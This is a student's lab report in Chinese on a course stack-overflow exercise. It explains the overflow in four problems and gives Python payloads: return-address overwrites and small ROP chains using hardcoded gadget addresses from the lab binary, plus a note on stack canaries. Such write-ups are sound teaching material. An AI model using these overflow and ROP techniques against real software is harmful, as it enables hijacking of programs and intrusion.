




# 栈溢出攻击实验
陈娅润 2024201523
## 题目解决思路


### Problem 1: 
- **分析**：func里0x401250有个strcpy，观察发现目标地址是-0x8(%rbp)，缓冲区只有8个字节，所以需要8字节填充缓冲区再8字节覆盖旧的rbp就到了返回地址。同时发现func1没有被调用说明就是修改后的函数。即16个任意字符+func1地址0x401216
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*16 + b'\x16\x12\x40\x00\x00\x00\x00\x00')" > ans1.txt
```
- **结果**：附上图片

### Problem 2:
- **分析**：发现main里func2没被用，观察func2，发现需要rbp-0x4=0x3f8跳转。刚好pop_rdi就能修改这个rdi值。串联起来就是返回地址变成pop_rdi先修改rdi值，再到func2得到结果。再观察func发现有个memcpy写了0x38字节 但是分配的是0x20，这里溢出了。所以是先填充16字节 再跳到pop rdi（0x4012c7）放入0x3f8，再链接地址401216
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片

```
payload = b"A"*16
payload += pack("<Q", 0x4012c7)
payload += pack("<Q", 0x3f8)
payload += pack("<Q", 0x401216)
```

- **结果**：附上图片

### Problem 3: 
- **分析**：看到func里依旧memcpy问题，buf是0x20，memcpy是0x40，buf32+old_rbp8+ret_addr8=48<64。func1依旧是目标函数，而且输入是func1(0x72)才会给答案。所以应该利用move_rax输入0x72 再调用func1，最后call_rax。payload结构：40字节A，0x4012f1
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片

```
payload  = b"A"*40
payload += pack("<Q", 0x4012f1)  
payload += pack("<Q", 0x72)      
payload += pack("<Q", 0x4012f1)  
payload += pack("<Q", 0x401216)  
payload += pack("<Q", 0x401308) 
```

- **结果**：附上图片


### Problem 4: 
- **分析**：体现canary的保护机制是什么。</br>
  - 直接看汇编发现func入口处程序从段寄存器%fs:0x28读取一个随机生成的64位数值，并将其存放在栈上靠近返回地址的位置。
  - 在函数准备返回前程序会再次从栈上取出该值并与原值对比。如果两者不一致，说明栈溢出破坏了该值，程序会立即跳转到 __stack_chk_fail 并终止进程，从而防止攻击者通过覆盖返回地址劫持控制流
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片</br>
分析代码发现前两次输入是什么是无所谓的。由于有金丝雀，无法写代码，但是0x13d9之后的 cmpl会跳转到func1第三次输入需要是-1，也就是4294967295就可以触发func1

- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
